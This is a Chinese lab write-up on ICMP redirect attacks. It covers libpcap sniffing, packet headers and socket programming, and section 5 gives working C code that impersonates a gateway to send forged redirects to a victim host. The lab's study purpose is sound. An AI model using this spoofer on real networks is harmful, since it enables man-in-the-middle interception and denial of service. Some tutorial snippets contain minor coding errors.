




# 实验一 ICMP重定向

> ICMP重定向是路由器向主机提供实时的路由信息。
>
> - 当一个主机收到ICMP重定向信息的时候，它就会根据这个信息来更新自己的路由表
> - 由于没有必要的合法性检查，如果一个黑客想要被攻击的主机修改路由表，黑客就会发送ICMP重定向信息给被攻击的主机
> - 思路：攻击者冒充网关，发送重定向包，要求受害者将自己的网关修改为攻击者制定的 `gw`地址，如果修改之后的网关可实现中间人攻击和DOS，如果是一个随机IP，那么可能导致DOS攻击.


## 1 正常重定向

一般情况下：

- 主机将送往远程网络的数据先发送给路由器。
- 路由器尽自己最大的努力转发数据
- 如果已知的路由器并不是去往目的地的最优选择，希望让用户选择其它路由器来转发数据
- 路由器会发送ICMP重定向包告诉对方，不要将数据源发送给自己，而应该发送给其他的路由器

正常情况下的ICMP重定向：

- 情况一： 当路由器从某个接口收到了数据包之后，需要将数据包从同一个接口发往目的地，也就是路由器收到数据包的接口正是去往目的地的出口时，会像源发送ICMP重定向，通知对方，直接将数据包发送到下一跳。
- 情况二： 当数据包的源IP和自己转发时的下一跳IP是同一个网段时，会向源发送ICMP重定向，通知对方，直接将数据包发送到下一跳。

## 2 libcap使用

分为5步：

1. 设置嗅探硬件设备(在Linux中一般是eth0) , 初始化pcap

   代码：

   ```c
   #include <stdio.h>
   #include <pcap.h>
   
   int main(int argc, char *argv[]){
       
       char *dev;	//device to sniff on
       char errbuf[PCAP_ERRBUF_SIZE];          // Error string
       
       //第一步
       dev = pcap_lookupdev(errbuf);
       if(dev == NULL){
           // if dev doesn't exist,print errlog,which in errbuf
           fprintf(stderr,"Couldn't find the default devices: %s\n",errbuf);
           return (2);
   	}
       printf("Device: %s\n", dev);
   	return(0);
   }
   ```

2. 打开设备进行嗅探

   `pcap_t *pcap_open_live(char *device, int snaplen, int promisc, int to_ms,char *ebuf)`

   |      参数      |                   含义                    |
   | :------------: | :---------------------------------------: |
   | `char *device` |            所使用的设备，网卡             |
   | `int snaplen`  |          pcap要捕获的最大字节数           |
   | `int promisc`  |      设定为true，接口带入混杂模式(?)      |
   |  `int to_ms`   | 读取超时，以毫秒为单位，0表示没有time out |
   |  `char *ebuf`  |                 出错信息                  |

   代码：

   ```c
   #include <stdio.h>
   #include <pcap.h>
   
   int main(int argc, char *argv[]){
       
       char *dev;	//device to sniff on
       char errbuf[PCAP_ERRBUF_SIZE];          // Error string
       pcap_t *handle;                         // Session handle
       
       // 第一步
       dev = pcap_lookupdev(errbuf);
       if(dev == NULL){
           // if dev doesn't exist,print errlog,which in errbuf
           fprintf(stderr,"Couldn't find the default devices: %s\n",errbuf);
           return (2);
   	}
       printf("Devices:%s\n",dev);
       
       //第二步
       /**
        * pcap_t *pcap_open_live(char *device, int snaplen, int promisc, int to_ms,char *ebuf)
        *
        * @param device    interface
        * @param snaplen   MaxLength pcap will sniff
        * @param promisc   true:interface into promiscuous mode
        * @param to_ms     read time out in milliseconds
        * @param ebuf      errbuf
        * @return handle
        */
       handle = handle = pcap_open_live(dev, BUFSIZ, 1, 1000, errbuf);
       if (handle == NULL) {
   		 fprintf(stderr, "Couldn't open device %s: %s\n", dev, errbuf);
   		 return(2);
   	 }
       
   }
   ```

3. 过滤流量，我们写的嗅探器只对特定的流量感兴趣，需要使用`pcap_compile()`和`pcap_setfilter()`

   ​	为什么不用`if else`过滤?pcap过滤器效率高，它使用`BPF过滤器`通过让BPF驱动程序直接执行可以减少很多步骤。过滤表达式用`char`数组保存，规则同`tcpdump`。

   编译使用函数`int pcap_compile(pcap_t *p, struct bpf_program *fp, char *str, int optimize, bpf_u_int32 netmask)`

   |           参数           |            含义            |
   | :----------------------: | :------------------------: |
   |       `pcap_t  *p`       |       Session handle       |
   | `struct bpf_program *fp` |   过滤器的编译版本的位置   |
   |       `char *str`        |         过滤表达式         |
   |      `int optimize`      |     表达式是否应该优化     |
   |  `bpf_u_int32 netmask`   | 过滤器适用的网络的网络掩码 |

   编译完表达式之后应用它使用函数`int pcap_setfilter(pcap_t *p, struct bpf_program *fp)`

   |           参数           |          含义          |
   | :----------------------: | :--------------------: |
   |       `pcap_t  *p`       |     Session handle     |
   | `struct bpf_program *fp` | 过滤器的编译版本的位置 |

   代码:

   ```c
   #include <stdio.h>
   #include <pcap.h>
   
   int main(int argc, char *argv[]){
       
       char *dev;	//device to sniff on
       char errbuf[PCAP_ERRBUF_SIZE];          // Error string
       pcap_t *handle;                         // Session handle
       struct bpf_program fp;                  // compiled expression
       char filter_exp[] = "port 23";          // filter expression
       bpf_u_int32 mask;                       // netmask
       bpf_u_int32 net;                        // IP
       // 第一步
       dev = pcap_lookupdev(errbuf);
       if(dev == NULL){
           // if dev doesn't exist,print errlog,which in errbuf
           fprintf(stderr,"Couldn't find the default devices: %s\n",errbuf);
           return (2);
   	}
       printf("Devices:%s\n",dev);
       /*
        * int pcap_lookupnet(dev, &net, &mask, errbuf)
        *
        * @param dev     interface
        * @param net     IP
        * @param mask    netmask
        * @param errbuf  error log
        * @return IP & netmask
        */
       if (pcap_lookupnet(dev, &net, &mask, errbuf) == -1) {
   		 fprintf(stderr, "Can't get netmask for device %s\n", dev);
   		 net = 0;
   		 mask = 0;
   	 }
      
       //第二步
       /**
        * pcap_t *pcap_open_live(char *device, int snaplen, int promisc, int to_ms,char *ebuf)
        *
        * @param device    interface
        * @param snaplen   MaxLength pcap will sniff
        * @param promisc   true:interface into promiscuous mode
        * @param to_ms     read time out in milliseconds
        * @param ebuf      errbuf
        * @return handle
        */
       handle = handle = pcap_open_live(dev, BUFSIZ, 1, 1000, errbuf);
       if (handle == NULL) {
   		 fprintf(stderr, "Couldn't open device %s: %s\n", dev, errbuf);
   		 return(2);
   	 }
       
       //第三步
       if (pcap_compile(handle, &fp, filter_exp, 0, net) == -1) {
           fprintf(stderr, "Couldn't parse filter %s: %s\n", filter_exp, pcap_geterr(handle));
           return(2);
       }
       if (pcap_setfilter(handle, &fp) == -1) {
           fprintf(stderr, "Couldn't install filter %s: %s\n", filter_exp, pcap_geterr(handle));
           return(2);
       }
   }
   ```

   补充`pcap_lookupnet(dev, &net, &mask, errbuf)`

   |        参数         |   含义   |
   | :-----------------: | :------: |
   |     `char *dev`     |   设备   |
   | `bpf_u_int32 *net`  |  IP地址  |
   | `bpf_u_int32 *mask` | 子网掩码 |
   |    `char *ebuf`     | 出错信息 |

4. 使用`pcap_loop()`循环嗅探

   `int pcap_loop(pcap_t *p, int cnt, pcap_handler callback, u_char *user)`

   |          参数           |                        含义                        |
   | :---------------------: | :------------------------------------------------: |
   |       `pcap_t *p`       |                       handle                       |
   |        `int cnt`        | 应该嗅探多少个数据包(负值表示一直抓下去，直到出错) |
   | `pcap_handler callback` |             回调函数，如何处理抓到的包             |
   |     `u_char *user`      |                   一般设定为NULL                   |

   代码:

   ```c
   #include <stdio.h>
   #include <pcap.h>
   
   int main(int argc, char *argv[]){
       
       char *dev;	//device to sniff on
       char errbuf[PCAP_ERRBUF_SIZE];          // Error string
       pcap_t *handle;                         // Session handle
       struct bpf_program fp;                  // compiled expression
       char filter_exp[] = "port 23";          // filter expression
       bpf_u_int32 mask;                       // netmask
       bpf_u_int32 net;                        // IP
       // 第一步
       dev = pcap_lookupdev(errbuf);
       if(dev == NULL){
           // if dev doesn't exist,print errlog,which in errbuf
           fprintf(stderr,"Couldn't find the default devices: %s\n",errbuf);
           return (2);
   	}
       printf("Devices:%s\n",dev);
       /*
        * int pcap_lookupnet(dev, &net, &mask, errbuf)
        *
        * @param dev     interface
        * @param net     IP
        * @param mask    netmask
        * @param errbuf  error log
        * @return IP & netmask
        */
       if (pcap_lookupnet(dev, &net, &mask, errbuf) == -1) {
   		 fprintf(stderr, "Can't get netmask for device %s\n", dev);
   		 net = 0;
   		 mask = 0;
   	 }
      
       //第二步
       /**
        * pcap_t *pcap_open_live(char *device, int snaplen, int promisc, int to_ms,char *ebuf)
        *
        * @param device    interface
        * @param snaplen   MaxLength pcap will sniff
        * @param promisc   true:interface into promiscuous mode
        * @param to_ms     read time out in milliseconds
        * @param ebuf      errbuf
        * @return handle
        */
       handle = handle = pcap_open_live(dev, BUFSIZ, 1, 1000, errbuf);
       if (handle == NULL) {
   		 fprintf(stderr, "Couldn't open device %s: %s\n", dev, errbuf);
   		 return(2);
   	 }
       
       //第三步
       if (pcap_compile(handle, &fp, filter_exp, 0, net) == -1) {
           fprintf(stderr, "Couldn't parse filter %s: %s\n", filter_exp, pcap_geterr(handle));
           return(2);
       }
       if (pcap_setfilter(handle, &fp) == -1) {
           fprintf(stderr, "Couldn't install filter %s: %s\n", filter_exp, pcap_geterr(handle));
           return(2);
       }
       
       //第四步
       pcap_loop(handle, -1, getPacket, NULL);
       return 0;
   }
   ```

5. 回调函数原型:

   ```c
   /**
    * @param u_char *args	对应于pacploop()的最后一个参数
    * @param const struct pcap_pkthdr *header	pcap的的头部信息，它包含有关何时嗅探数据包的信息，它的大小等
    * @param const u_char *packet	另外一个u_char指针，它指向包含由pcap_loop（）嗅探的整个数据包的一大块数据的第一个字节。
    */
   void got_packet(u_char *args, const struct pcap_pkthdr *header,  const u_char *packet);
   ```

## 3 IP报文和ICMP报文

### 3.1 IP 头部信息


```c
/* IP header */
struct ip_header {
#ifdef WORDS_BIGENDIAN
    u_int8_t ip_version:4;
  u_int8_t ip_header_length:4;
#else
    u_int8_t ip_header_length:4;
    u_int8_t ip_version:4;
#endif
    u_char  ip_tos;                 /* type of service */
    u_short ip_len;                 /* total length */
    u_short ip_id;                  /* identification */
    u_short ip_off;                 /* fragment offset field */
#define IP_RF 0x8000            /* reserved fragment flag */
#define IP_DF 0x4000            /* dont fragment flag */
#define IP_MF 0x2000            /* more fragments flag */
#define IP_OFFMASK 0x1fff       /* mask for fragmenting bits */
    u_char  ip_ttl;                 /* time to live */
    u_char  ip_protocol;                   /* protocol */
    u_short ip_checksum;                  /* checksum */
    struct  in_addr ip_source_address,ip_destination_address;  /* ip_destination_address */
};
```



- 版本号：4个字节 ipv4&ipv6
- 首部长度：首部长度说明首部有多少32位字（4字节），最大是15*4 = 60
- 区分服务：占8bit，最初被定义为[服务类型](https://zh.wikipedia.org/w/index.php?title=服务类型&action=edit&redlink=1)字段，实际上并未使用，
- 显示拥塞通告：一般未使用
- 全长：16位，IP报文的总长度
- 标识符：16位，这个字段主要被用来唯一地标识一个报文的所有分片，因为分片不一定按序到达，所以在重组时需要知道分片所属的报文。每产生一个数据报，计数器加1，并赋值给此字段
- 标志：
  - 这个3位字段用于控制和识别分片，它们是：
    - 位0：保留，必须为0；
    - 位1：禁止分片（Don’t Fragment，DF），当DF=0时才允许分片；
    - 位2：更多分片（More Fragment，MF），MF=1代表后面还有分片，MF=0 代表已经是最后一个分片。
    - 如果DF标志被设置为1，但路由要求必须分片报文，此报文会被丢弃。这个标志可被用于发往没有能力组装分片的主机。
- 分片偏移 ：这个13位字段指明了每个分片相对于原始报文开头的偏移量，以8字节作单位。
- 存活时间：这个8位字段避免报文在互联网中永远存在（例如陷入路由环路）。存活时间以秒为单位，但小于一秒的时间均向上取整到一秒。在现实中，这实际上成了一个跳数计数器：报文经过的每个路由器都将此字段减1，当此字段等于0时，报文不再向下一跳传送并被丢弃，最大值是255。常规地，一份ICMP报文被发回报文发送端说明其发送的报文已被丢弃。
- 协议，占8个字节，这个字段定义了该报文数据区使用的协议。
- 首部校验和：16位，只对首部查错，不包括数据部分。
- 源地址：ipv4地址
- 目的地址
- 选项：附加的首部字段可能跟在目的地址之后，但这并不被经常使用，从1到40个字节不等。

### 3.2 ICMP头部信息

```c
// icmp 重定向报文头
struct icmp_header
{
    u_int8_t icmp_type;
    u_int8_t icmp_code;
    u_int16_t icmp_checksum;
    struct in_addr icmp_gateway_addr;

    //u_int16_t icmp_identifier;
    //u_int16_t icmp_sequence;
};
```

ICMP报头从IP保温的第160位开始，IP首部20字节之后。



- Type：ICMP的类型，标志生成的错误报文
- Code:进一步划分ICMP的类型,该字段用来查找产生错误的原因.；例如，ICMP的目标不可达类型可以把这个位设为1至15等来表示不同的意思。
- Checksum：校验码部分,这个字段包含有从ICMP报头和数据部分计算得来的，用于检查错误的数据，其中此校验码字段的值视为0。
- ID：这个字段包含了ID值，在Echo Reply类型的消息中要返回这个字段。
- Sequence：这个字段包含一个序号，同样要在Echo Reply类型的消息中要返回这个字段。

#### 重定向报文：



## 4 Socket编程

### 4.1 Socket类型

- **流套接字（Stream Socket) - **  在网络环境中保证交付，通过套接字发送三个项目ABC，他们会以相同的顺序ABC到达，TCP传输
- **数据包套接字(Datagram Socket) - ** 无法保证交付，无连接，使用UDP
- **原始套接字（Raw Socket) - ** 使用原始套接字，用户可以访问底层通信协议
- **顺序数据包套接字（Sequenced Packet Socket） -  ** 仅仅作为网络系统NS套接字抽象的一部分提供

Socket使用一个四元组**<源IP，源port, 目的IP， 目的port>**来描述一个网络连接，使用Socket的时候也需要数据结构描述。

```c
/**
 * @param sa_family 地址族  AF_INET 基于IP的一般都是这个
 * 						   AF_UNIX
 * 					       AF_NS
 *					       AF_IMPLINK
 *
 * sa_data	根据地址类型解释协议特定地址，对于internet，使用端口号 + IP地址，该地址由sockaddr_in表示
 */
struct sockaddr {
   unsigned short   sa_family;
   char             sa_data[14];
};

/**
 * @param sin_family 和sockadd的sa_falimy一样,包括四个可选值
 * 					 AF_INET,AF_UNIX,AF_NS,AF_IMPLINK
 * @param sin_port   端口号，16位长，网络字节序
 * @param sin_addr	 IP地址，32位长，网络字节序
 * @param sin_zero	 设置为0,8个字节
 */
struct sockaddr_in {
   short int            sin_family;
   unsigned short int   sin_port;
   struct in_addr       sin_addr;
   unsigned char        sin_zero[8];
};

/*
 * 字节序
 * Little Endian - 低字节在A，高字节在A+1
 * Big Endian - 低字节在A+1，高字节在A
 */

/* 将IP地址：192.1168.1.1和端口12345绑定到一个socket */
void socket_tran(){
    struct sockaddr_in myaddr;
    int s;
    
    myaddr.sin_family = AF_INET;
    myaddr.sin_port = htons(12345);
    inet_aton("192.168.1.1", &myaddr.sin_addr.s_addr);
    
    s = socket(PF_INET, SOCK_STREAM, 0);
    bind(s, (struct sockaddr*)myaddr, sizeof(myaddr));
}
```

使用两个数据结构来表示地址原因是socket设计之初是准备支持多个地址协议的，不同的地址协议由不同的地址构造。如IPV4的`sockaddr_in`,IPV6的`sockaddr_in6`,AF_UNIX 的`sockaddr_un`

`sockaddr`是对这些地址的上一层的抽象，在将使用的值复制给`sockaddr_in`之后，通过强制类型转换就可以转换为`sockaddr`.

### 4.2 Socket通信流程

#### 4.2.1 TCP通信



客户端：建立Socket；建立连接，发送连接请求；发送/接收数据；关闭连接

服务器端：建立Socket；绑定本地地址。接受请求，接收/发送数据；关闭连接

### 4.2.2 UDP通信

省去了监听过程，不用建立连接

### 4.2.3 C/S代码实例

客户端代码：

```c
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <string.h>
#include <errno.h>
#include <stdlib.h>

int main(){
    int clientfd;
    int conn;
    struct sockaddr_in servaddr;
    struct sockaddr_in cliaddr;
    char buff[1024];
	char buff2[1024];
    int servlen;	
	int n;
    
    bzero(buff,1024);
	bzero(buff2,1024);
    
    //client
    bzero(&cliaddr,sizeof(cliaddr));
    cliaddr.sin_addr.s_addr = htonl(INADDR_ANY);
	cliaddr.sin_family = AF_INET;
	cliaddr.sin_port = htons(0);
    
    //socket()
	clientfd = socket(AF_INET,SOCK_STREAM,0);
    
    
    bzero(&servaddr,sizeof(servaddr));
    servaddr.sin_family = AF_INET;
	if(inet_pton(AF_INET,"127.0.0.1",&servaddr.sin_addr)<0) printf("address error1\n");
	servaddr.sin_port = htons(2345);
    
    servlen = sizeof(servaddr);
    
    //connect()
    if(conn = connect(clientfd,(struct sockaddr *)&servaddr,servlen) < 0){
        printf("connect error!\n");
    }
    
    if(n = recv(clientfd,buff2,sizeof(buff2),0)>0)
		printf("Message %s:",buff2);
    
    printf("clientfd is %d,connfd is %d.\n",clientfd,conn);
    
    while(1){
        //send()&receive()
        while((n = read(0,buff,sizeof(buff)))>0){
		printf("string length is %d\n",n);	
		if(send(clientfd,buff,n,0)<0) 
			{printf("send error! %s(errno :%d)\n",strerror(errno),errno);
				exit(0);}
		if((n=recv(clientfd,buff2,sizeof(buff2),0))>0){
			printf("echoed from server length is %d\n",n);
			write(0,buff2,n);
			printf("\n");
			
		}
	}
        close(clientfd);
}
```

服务器端代码：

```c
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <string.h>
#include <errno.h>
#include <stdlib.h>

int main(){
    int listenfd;
    int connfd;
    char buff[1024];
    int clilen;
    int n;
    
    //socket()
    listenfd = socket(AF_INET,SOCK_STREAM,0);
    
	bzero(&servaddr,sizeof(servaddr));
	servaddr.sin_family = AF_INET;
	servaddr.sin_addr.s_addr = htonl(INADDR_ANY);
	servaddr.sin_port = htons(2345);
    
    //bind()
    if(bind(listenfd,(struct sockaddr *)&servaddr,sizeof(servaddr))<0)
		printf("bind error!\n");
    
    //listen()
    listen(listenfd,10);
	clilen = sizeof(cliaddr);
	printf("serverfd is %d, connfd is %d.\n",listenfd,connfd);
    
    while(1){
        //send()&receive()
        connfd = accept(listenfd,(struct sockaddr *)&cliaddr,&clilen);
		send(connfd,"Welcome to Server!\n",19,0);
        
        while((n=read(connfd,buff,sizeof(buff)))>0){
			printf("Received string length is %d.\n",n);		
			//printf("%s\n",buff);	
			write(1,buff,n);
			write(connfd,buff,n);		
			//send(connfd,"hello",5,0);
		}
        close(connfd);
    }
    close(listenfd);
}
```

### 4.2.4 raw socket

一个Ping程序：

```c
#include <sys/types.h>
#include <unistd.h>
#include <errno.h>
#include <signal.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <linux/tcp.h>
#include <netinet/ip_icmp.h>
#include<strings.h>
#include <stdio.h>
#include <stdlib.h>
#include<string.h>
#include <arpa/inet.h>
	
char buff[28]={0};
int sockfd;
struct sockaddr_in target;
struct sockaddr_in source;

unsigned short in_cksum(unsigned short *addr, int len)
{
        int sum=0;
        unsigned short res=0;
        while( len > 1)  {
                sum += *addr++;
                len -=2;
               // printf("sum is %x.\n",sum);
        }
        if( len == 1) {
                *((unsigned char *)(&res))=*((unsigned char *)addr);
                sum += res;
        }
        sum = (sum >>16) + (sum & 0xffff);
        sum += (sum >>16) ;
        res = ~sum;
        return res;
}


int main(int argc, char * argv[]){
	
	int send, recv,i;
	send = 0;
	recv = 0;
	i = 0;

	if(argc != 2){
                printf("usage: %s targetip\n", argv[0]);
                exit(1);
        }

		
	if(inet_aton(argv[1],&target.sin_addr)==0){
		printf("bad ip address %s\n",argv[1]);
		exit(1);
	}
	
	int recvfd = socket(AF_INET,SOCK_RAW,IPPROTO_ICMP);

	struct icmp * icmp = (struct icmp*)(buff);
	
	if((sockfd=socket(AF_INET,SOCK_RAW,IPPROTO_ICMP))<0)
	{	perror("socket error!");exit(1);	}

	
	icmp->icmp_type = ICMP_ECHO;
	icmp->icmp_code = 0;
	icmp->icmp_cksum = 0;
	icmp->icmp_id = 2;
	icmp->icmp_seq = 3;

	while(send < 4)
	{
	send++;
	icmp->icmp_seq = icmp->icmp_seq+1;
	icmp->icmp_cksum = 0;
	icmp->icmp_cksum = in_cksum((unsigned short *)icmp,8);
	sendto(sockfd, buff, 28,0,(struct sockaddr *)&target,sizeof(target));
	sleep(1);
	}
		
	struct sockaddr_in from;
	int lenfrom = sizeof(from);
	char recvbuff[1024];
	int n;
	while(recv<4){
		memset(recvbuff,0,1024);
		if((n = recvfrom(recvfd,recvbuff,sizeof(recvbuff),0,(struct sockaddr *)&from,&lenfrom))<0) {perror("receive error!\n");exit(1);};	
		struct ip *ip=(struct ip *)recvbuff;
		struct icmp *icmp = (struct icmp*)(ip+1);
		printf("n is %d,ip header length is %d\n ",n,ip->ip_hl);
		if((n-ip->ip_hl*4)<8) {printf("Not ICMP Reply!\n");break;}
		printf("ttl is %d\n",ip->ip_ttl);	
		printf("protocol is %d\n",ip->ip_p);
		if((icmp->icmp_type==ICMP_ECHOREPLY)&&(icmp->icmp_id==2)){
			printf("%d reply coming back from %s: icmp sequence=%u ttl=%d\n",recv+1,inet_ntoa(from.sin_addr),icmp->icmp_seq,ip->ip_ttl);
		printf("src is %s\n",inet_ntoa(ip->ip_src));
		printf("dst is %s\n",inet_ntoa(ip->ip_dst));	
	recv++;}

	}	
	
	return 0;
}
```


## 5 实验代码

实验代码：

```c
#include <pcap.h>
#include <time.h>
#include <stdlib.h>
#include <stdio.h>
#include <netinet/in.h>
#include<sys/socket.h>
#include<unistd.h>
#include <string.h>
#include <arpa/inet.h>

#define MAX 1024
#define SIZE_ETHERNET 14

const unsigned char *Target_IP = "192.168.32.132"; //靶机IP
const unsigned char *Ori_Gw = "192.168.32.2";      //网关
const unsigned char *Redic_IP = "192.168.32.131";  //修改之后的网关，这里我们设置为攻击者ip
int flag = 0;

//IP header
/* IP header */
struct ip_header {
#ifdef WORDS_BIGENDIAN
    u_int8_t ip_version:4;
  u_int8_t ip_header_length:4;
#else
    u_int8_t ip_header_length:4;
    u_int8_t ip_version:4;
#endif
    u_char  ip_tos;                 /* type of service */
    u_short ip_len;                 /* total length */
    u_short ip_id;                  /* identification */
    u_short ip_off;                 /* fragment offset field */
#define IP_RF 0x8000            /* reserved fragment flag */
#define IP_DF 0x4000            /* dont fragment flag */
#define IP_MF 0x2000            /* more fragments flag */
#define IP_OFFMASK 0x1fff       /* mask for fragmenting bits */
    u_char  ip_ttl;                 /* time to live */
    u_char  ip_protocol;                   /* protocol */
    u_short ip_checksum;                  /* checksum */
    struct  in_addr ip_source_address,ip_destination_address;  /* ip_destination_address */
};


// icmp 重定向报文头
struct icmp_header
{
    u_int8_t icmp_type;
    u_int8_t icmp_code;
    u_int16_t icmp_checksum;
    struct in_addr icmp_gateway_addr;

    //u_int16_t icmp_identifier;
    //u_int16_t icmp_sequence;
};

/*
 * 计算校验和
 * @param buf //需要校验的数据
 * @param len //长度
 */
u_int16_t checksum(u_int8_t *buf,int len);

/*
 * 重定向包
 * @param sockfd  套接字描述副
 * @param data    抓到的数据包IP头+IP 数据前8个
 * @param datalen 包大小
 */
void ping_redirect(int sockfd,const unsigned char *data,int datalen);

//  处理包
void parseIPHeader(const u_char *ip_packet);

// 回调函数原型
void got_packet(u_char *args, const struct pcap_pkthdr *header, const u_char *packet);

u_int16_t checksum(u_int8_t *buf,int len){
    u_int32_t sum=0; // step1: 将校验和字段设置为0
    u_int16_t *cbuf;

    cbuf=(u_int16_t *)buf; //step2: 将需要校验的数据看作以16位为单位的数字组成。

    while(len>1) // step3: 依次进行二进制反码求和
    {
        sum+=*cbuf++;
        len-=2;
    }

    if(len)    // step4: 得到的结果存入检验和字段
        sum+=*(u_int8_t *)cbuf;

    sum=(sum>>16)+(sum & 0xffff);
    sum+=(sum>>16);

    return ~sum;
}

void ping_redirect(int sockfd,const unsigned char *data,int datalen){
    char buf[MAX],*p;
    struct ip_header *ip;
    struct icmp_header *icmp;
    int i;
    struct sockaddr_in dest;

    //buf : packetz
    memset(buf,0,MAX);

    /*目标IP  这里为靶机ip*/
    dest.sin_family = AF_INET;
    dest.sin_addr.s_addr = inet_addr(Target_IP);

    //手动填充 ip头
    ip = (struct ip_header*)buf;
    ip->ip_version = 4;
    ip->ip_header_length = sizeof(struct ip_header)>>2;
    ip->ip_tos = 0;
    ip->ip_len = sizeof(struct ip_header) + sizeof(struct icmp_header) + datalen;
    ip->ip_id = 0;
    ip->ip_ttl = 255;
    ip->ip_protocol = IPPROTO_ICMP;
    ip->ip_source_address.s_addr = inet_addr(Ori_Gw);           //要伪造网关发送ip报文
    ip->ip_destination_address.s_addr = inet_addr(Target_IP);   //将伪造重定向包发给受害者

    //手动填充ICMP头部
    icmp = (struct icmp_header*)(buf+20);
    icmp->icmp_type = 5;//ICMP_REDIRECT
    icmp->icmp_code = 1;//重定向主机的数据报
    icmp->icmp_checksum = 0;
    icmp->icmp_gateway_addr.s_addr = inet_addr(Redic_IP);//告诉受害者 将网关ip改成redic_ip

    //存放之后填充的拷贝
    p = buf+28;
    for(i=0;i<datalen;++i)
    {
        p[i] = data[i];//拷贝抓来的ip头和数据部分前8字节
    }


    icmp->icmp_checksum = checksum((unsigned short *)icmp, 36);//8 + 20 + 8

    /*
     * 发送套接字
     * @param sockfd 发送端套接字描述符
     * @param buf    待发送数据缓冲区
     * @param 56     待发送数据IP头长度(20) + ICMP头部长度(8) + IP首部(20) + IP前8个字节
     * @param 0      flag标志位
     * @param dest   数据发送的目的地址，当然就是靶机
     * @param sizeof(dest) 地址长度
     */
    sendto(sockfd,buf,56,0,(struct sockaddr *)&dest,sizeof(dest));
    //printf("send\n");
}

//处理包
void parseIPHeader(const u_char *ip_packet)
{
    const struct ip_header *ip;
    ip = (struct ip_header*)ip_packet;
    int ip_header_len = ip->ip_header_length*4;

    if(ip_header_len<20)
    {
        //printf("Invalid IP header len!\n");
        return;
    }

    printf("Src :%s\n",inet_ntoa(ip->ip_source_address));

    if(!strcmp(Target_IP,inet_ntoa(ip->ip_source_address)))
    {
        //抓到被攻击者的数据包！
        //printf("find!\n");
        
        int count=0;
        while(1)
        {
            int sockfd,res;
            int one = 1;
            int *ptr_one = &one;
            
            //构造的是ICMP报文
            if((sockfd = socket(AF_INET,SOCK_RAW,IPPROTO_ICMP))<0)
            {
                printf("create sockfd error\n");
                exit(-1);
            }
            //IP层的协议，代表我们要自己设置socket选项
            res = setsockopt(sockfd, IPPROTO_IP, IP_HDRINCL,ptr_one, sizeof(one));
            if(res < 0)
            {
                printf("error--\n");
                exit(-3);
            }

            ping_redirect(sockfd,ip_packet,28);//20字节ip头加上8字节上层协议,作为新发送icmp的数据部分
            if(count++<5)
                continue;
            break;
        }

    }

}

void getPacket(u_char * arg, const struct pcap_pkthdr * pkthdr, const u_char * packet)
{
    static int id = 0; //packet counter
    const struct sniff_ethernet *ethernet; //设备
    const struct ip_header *ip; //ip头部


    printf("=============================\n");
    printf("Packet number: %d\n", ++id);
    printf("Packet length: %d\n", pkthdr->len);

    //printf("Number of bytes: %d\n", pkthdr->caplen);
    //printf("Recieved time: %s", ctime((const time_t *)&pkthdr->ts.tv_sec));

    //接受到的是以太网帧
    // ethernet = (struct sniff_ethernet*)packet;
   // ip = (struct ip_header*)(packet + SIZE_ETHERNET);

    parseIPHeader(packet + SIZE_ETHERNET);
}

int main(){
    char *dev = NULL;			/* capture device name */
    char errbuf[PCAP_ERRBUF_SIZE];		/* error buffer */
    pcap_t *handle;				/* packet capture handle */
    struct bpf_program fp;		/* The compiled filte */
    char filterstr[50]={0};
    sprintf(filterstr,"src host %s",Target_IP);
    /* Define the device */
    dev = pcap_lookupdev(errbuf);
    if (dev == NULL) {
        fprintf(stderr, "Couldn't find default device: %s\n", errbuf);
        return(2);
    } else{
        printf("success: device: %s\n", dev);
    }
    handle = pcap_open_live(dev, 65535, 1, 1000, errbuf);
    pcap_compile(handle, &fp, filterstr, 1, 0);
    pcap_setfilter(handle, &fp);

    /* wait loop forever */
    int id = 0;
    pcap_loop(handle, -1, getPacket, NULL);
    return 0;
}
```

## 6 实验流程图

```flow
st=>start: Start
op1=>operation: 利用pcap抓到所需要的ip报文
op2=>operation: 分析抓到的ip报文
op3=>operation: 构造icmp报文以及ip报文
op4=>operation: 将构造的icmp报文发送给靶机
e=>end
st->op1->op2->op3->op4->e

```


